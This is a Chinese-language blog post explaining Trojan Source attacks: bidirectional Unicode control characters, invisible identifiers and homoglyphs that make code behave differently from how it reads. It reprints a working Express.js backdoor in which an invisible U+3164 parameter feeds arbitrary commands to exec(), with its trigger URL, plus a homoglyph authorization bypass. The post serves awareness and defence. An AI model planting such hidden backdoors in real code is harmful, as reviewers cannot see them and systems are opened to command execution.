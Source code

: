 # 源代码特洛伊木马攻击
>date: 2021-11-19T17:02:46+08:00


![](/assets/images/il_340x270_pggv.jpg)最近，我们在 Github 的 Code Review 中看到 Github 开始出现下面这个 Warning 信息—— “This file contains bidirectional Unicode text that may be interpreted or compiled differently than what appears below.”也就是说我们的代码中有一些 bidirectional unicode 的文本，中文直译作 “双向文本”，意思是一些语言是从左到右的，而另一些则是是从右到左的（如：阿拉伯语），如果同一个文件里，即有从左向右的文本也有从右向左文本两种的混搭，那么，就叫bi-direction。术语通常缩写为“ **BiDi** ”或“ **bidi** ”。使用双向文本对于中国人来说并不陌生，因为中文又可以从左到右，也可以从右到左，还可以从上到下。


![](/assets/images/1637305049427-1024x329.jpg)


早期的计算机仅设计为基于拉丁字母的从左到右的方式。添加新的字符集和字符编码使许多其他从左到右的脚本能够得到支持，但不容易支持从右到左的脚本，例如阿拉伯语或希伯来语，并且将两者混合使用更是不可能。从右到左的脚本是通过[ISO/IEC 8859-6](https://en.wikipedia.org/wiki/ISO/IEC_8859-6 "ISO/IEC 8859-6")和[ISO/IEC 8859-8](https://en.wikipedia.org/wiki/ISO/IEC_8859-8 "ISO/IEC 8859-8")等编码引入的，通常以书写和阅读顺序存储字母。可以简单地将从左到右的显示顺序翻转为从右到左的显示顺序，但这样做会牺牲正确显示从左到右脚本的能力。通过双向文本支持，可以在同一页面上混合来自不同脚本的字符，而不管书写方向如何。



双向文本支持是计算机系统正确显示双向文本的能力。对于Unicode来说，其标准为完整的 BiDi 支持提供了基础，其中包含有关如何编码和显示从左到右和从右到左脚本的混合的详细规则。你可以使用一些控制字符来帮助你完成双向文本的编排。


好的，科普完“双向文本”后，我们正式进入正题，为什么Github 会出这个警告？Github的官方博客“[关于双向Unicode的警告](https://github.blog/changelog/2021-10-31-warning-about-bidirectional-unicode-text/)”中说，使用一些Unicode中的用于控制的隐藏字符，可以让你代码有着跟看上去完全不一样的行为。


我们先来看一个示例，下面这段 Go 的代码就会把 “Hello, World”的每个字符转成整型，然后计算其中多少个为 1 的 bit。



```
package main

import "fmt"

func main() {
  str, mask := "Hello, World!‮10x‭", 0

  bits := 0
  for _, ch := range str {
    for ch > 0 {
      bits += int(ch) & mask
      ch = ch >> 1
    }
  }
  fmt.Println("Total bits set:", bits)
}
```

这个代码你看上去没有什么 奇怪的地方，但是你在执行的时候（可以直接上Go Playground上执行  –<https://play.golang.org/p/e2BDZvFlet0>），你会发现，结果是 0，也就是说“Hello, World”中没有值为 1 的 bit 位。这究竟发生了什么事？


如果你把上面这段代码拷贝粘贴到字符界面上的 vim 编辑器里，你就可以看到下面这一幕。


![](/assets/images/1637307319589.jpg)


其中有两个浅蓝色的尖括号的东西—— `<202e>` 和 `<202d>` 。这两个字符是两个Unicode的控制字符（注：完整的双向文本控制字符参看 [Unicode Bidirectional Classes](https://www.compart.com/en/unicode/bidiclass)）：


* **U+202E – Right-to-Left Override [RLO]**  

表示，开始从右到左显示，于是，接下来的文本 `10x", 0` 变成了 `0 ,"x01`
* **U+202D – Left-to-Right Override [LRO]**  

表示，开始从左到右显示，于是，`0,"x01` 中的前4个字符`0 ,"` 反转成  `", 0`，于是整个文本成了 `", 0x01`


所以，你在视觉上看到的是结果是—— `"Hello, World!”, 0x01`， 但是实际上是完全是另外一码事。


然后，Github官方博客中还给了一个安全问题 [CVE-2021-42574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42574) ——



> 在 Unicode 规范到 14.0 的双向算法中发现了一个问题。它允许通过控制序列对字符进行视觉重新排序，可用于制作源代码，呈现与编译器和解释器执行逻辑完全不同的逻辑。攻击者可以利用这一点对接受 Unicode 的编译器的源代码进行编码，从而将目标漏洞引入人类审查者不可见的地方。
> 
> 


这个安全问题在剑桥大学的这篇论文“[Some Vulnerabilities are Invisible](https://www.trojansource.codes/)”中有详细的描述。其中PDF版的文章中也给了这么一个示例：


通过双向文本可以把下面这段代码：


![](/assets/images/1637308872541.jpg)


伪装成下面的这个样子：


![](/assets/images/1637308847435.jpg)


在图 2 中`'alice'`被定义为价值 100，然后是一个从 Alice 中减去资金的函数。最后一行以 50 的值调用该函数，因此该小程序在执行时应该给我们 50 的结果。


然而，图 1 向我们展示了如何使用双向字符来破坏程序的意图：通过插入**RLI (Right To Left Isolate)***–* **U+2067***，*我们将文本方向从传统英语更改为从右到左。尽管我们使用了减去资金功能，但图 1 的输出变为 100。


除此之外，支持Unicode还可以出现很多其它的攻击，尤其是通过一些“不可见字符”，或是通过“同形字符”在源代码里面埋坑。比如文章“[The Invisible Javascript Backdoor](https://certitude.consulting/blog/en/invisible-backdoor/)”里的这个示例：



```
const express = require('express');
const util = require('util');
const exec = util.promisify(require('child_process').exec);

const app = express();

app.get('/network_health', async (req, res) => {
    const { timeout,ㅤ} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤ
    ];

    try {
        await Promise.all(checkCommands.map(cmd => 
                cmd && exec(cmd, { timeout: +timeout || 5_000 })));
        res.status(200);
        res.send('ok');
    } catch(e) {
        res.status(500);
        res.send('failed');
    }
});

app.listen(8080);
```

上面这个代码实现了一个非常简单的网络健康检查，HTTP会执行 `ping -c 1 google.com` 以及 `curl -s http://example.com` 这两个命令来查看网络是否正常。其中，可选输入 HTTP 参数`timeout`限制命令执行时间。


然后，上面这个代码是有不可见的Unicode 字符，如果你使用VSCode，把编码从 Unicode 改成 DOS (CP437) 后你就可以看到这个Unicode了


![](/assets/images/1637310735683-1024x923.jpg)


于是，一个你看不见的 `πàñ` 变量就这样生成了，你再仔细看一下整个逻辑，这个看不见的变量，可以让你的代码执行他想要的命令。因为，http 的请求中有第二个参数，这个参数可奖在后面被执行。于是我们可以构造如下的的 HTTP 请求：


**http://host:port/network\_health?%E3%85%A4=<any command>**


其中的，%E3%85%A4 就是 `\u3164` 这个不可见Unicode 的编码，于是，一个后门代码就这样在神不知鬼不觉的情况下注入了。


另外，还可以使用“同形字符”，看看下面这个示例：



```
if(environmentǃ=ENV_PROD){
    // bypass authZ checks in DEV
    return true;
}
```

如何你以为 `ǃ` 是 惊叹号，其实不是，它是一个Unicode `╟â`。这种东西就算你把你的源码转成 DOS(CP437) 也没用，因为用肉眼在一大堆正常的字符中找不正常的，我觉得是基本不可能的事。


现在，是时候检查一下你的代码有没有上述的这些情况了……


（全文完）


 


 



